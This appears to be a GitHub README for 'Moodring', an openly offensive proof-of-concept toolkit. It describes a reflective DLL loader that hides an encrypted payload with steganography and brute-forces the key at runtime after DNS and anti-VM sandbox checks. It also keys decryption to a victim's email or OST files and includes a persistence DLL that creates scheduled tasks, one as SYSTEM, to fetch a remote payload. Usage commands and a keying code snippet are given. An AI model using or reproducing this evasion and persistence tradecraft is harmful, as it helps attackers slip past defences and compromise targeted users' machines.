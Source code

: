 ## Moodring
PoC reflective DLL loader with encryption, steg and env checks. Decryption key is bruteforced at runtime after DNS server check is performed. 

### Cryptorchid - Encrypt and Hide 
Command line Encrypt/Decrypt tool, can test if the hash can be retrieved and payload decrypted successfully prior to putting it in the pipeline

```powershell
# Skip DNS check, use steganography, and encrypt the dll using AAAA and steg the hash into logo.png, to create logo_copy.png with the hash embeded in least signifcant bit
 .\Cryptorchid.exe -nodns -steg AAAA .\calc.dll .\Logo.png

# Check DNS match for google and check for Sandbox VMs, looks for encyrpted 'mod.txt' and png in the current dir, bruteforce to decrypt and load
# This is to test the sideloading dll, change these values in Decryptorchid source under Program.Main().
 .\Cryptorchid.exe 8.8.8.8 -antivm -stegload .\Logo_copy.png "Calc.Modes.RunCalc.Execute"

 # Pull hash from steg image and decrypt output to view (meant for text/test, will print the contents of dlls)
 .\Cryptorchid.exe -nodns -desteg  .\Logo_copy.png

 # Get hash of UPN for OST file matching
 .\Cryptorchid.exe -nodNS -hash manager@corpomax.com

 # Store hash of UPN in bit
.\Cryptorchid.exe -nodNS -hideupn balls@krebsonsecurity.com .\NOGO.png

# retrieve the hash from the image
.\Cryptorchid.exe -nodNS -getupn .\NOGO_copy.png

# List OST Files found on disk for matching on UPNs
.\Cryptorchid.exe -nodNS -listaccounts 

# Encrypt using UPN Hash so we can decrypt later based on OST files found on system
.\Cryptorchid.exe -noDNs -encryptupn email@domain.com .\logo.png

# Decrypt and invoke method, matching on UPN Hash, pull it from image and check if any OST files found in AppData match
.\Cryptorchid.exe -noDNs -decryptupn .\logo_copy.png Calc.Modes.RunCalc.Execute
```

### Decryptorchid - Decrypts payload from encrypted text file using hash stored in image
Sideloading DLL, bruteforces the payloads decryption and loads target into memory, invoking your desired method. 


TODO: Have this an encrypted value we can pull as well from another image, get rid of the text file.
TODO: if O365, keying off the email is possible since regkey can be used that contains users email.
 Query Key > Hash Value > Store Hash and Compare against our stored value, if match, decrypt.

string storedHashValue = "";
 string regValue = Microsoft.Win32.Registry.GetValue(@"HKEY_CURRENT_USER\", "upn" null);
string upnName = (string)regValue;
 string hashedUpnValue = GetSHA256Hash(upnName);
 bool correctKey = hashedUpnValue.Equals(storedHashValue);
 if (correctKey){
    var rawPayload = rc4EncDecrypt(Encoding.UTF8.GetBytes(payload), upnName);
 }
 // run that motha

 Nope, target the ost/nst file instead, regkey incosistent.


### Taskmasker 
Persister DLL, checks users permissions and creates a task, fetching a remote payload to an AppData directory. If admin, two tasks are created, one to run as SYSTEM. 

